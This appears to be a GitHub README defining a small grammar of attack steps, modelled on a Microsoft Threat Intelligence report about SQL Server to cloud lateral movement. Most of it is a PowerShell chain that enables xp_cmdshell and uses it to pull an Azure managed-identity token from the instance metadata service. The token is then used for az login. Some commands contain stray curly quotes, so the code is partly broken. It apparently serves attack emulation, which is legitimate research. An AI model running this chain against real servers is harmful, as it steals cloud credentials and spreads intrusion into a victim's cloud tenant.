 # Simple CFG For SQL Lateral Movement
Based on article:
[Defending new vectors: Threat actors attempt SQL Server to cloud lateral movement _By Microsoft Threat Intelligence_](https://www.microsoft.com/en-us/security/blog/2023/10/03/defending-new-vectors-threat-actors-attempt-sql-server-to-cloud-lateral-movement/)

### Commands (terminals)
```
c1 = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC master..sp_configure ‘SHOW advanced options’,1; “RECONFIGURE WITH OVERRIDE;"
c2 = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC master..sp_configure ‘xp_cmdshell’, 1; RECONFIGURE WITH OVERRIDE;"
c3 = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC master..sp_configure ‘SHOW advanced options’,0; RECONFIGURE WITH OVERRIDE;"
c4 = $accessToken = Invoke-Sqlcmd -ServerInstance "<sqlserver>" -Database "<database>" -Username "<username>" -Password "<password>" -Query "EXEC xp_cmdshell 'curl -H \"Metadata: true\" \"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/\"'" | Select-String -Pattern '^{.*}' | ForEach-Object { $tokenObject = ConvertFrom-Json $_.Matches[0].Value; $tokenObject.access_token }
c5 = az login --service-principal -u <app-id> -p $accessToken  --tenant <tenant>
```

### Activities (non-terminals)
```
A = c1 c2 c3 c4 c5
```

### Starting Production Rule
```
S -> A
```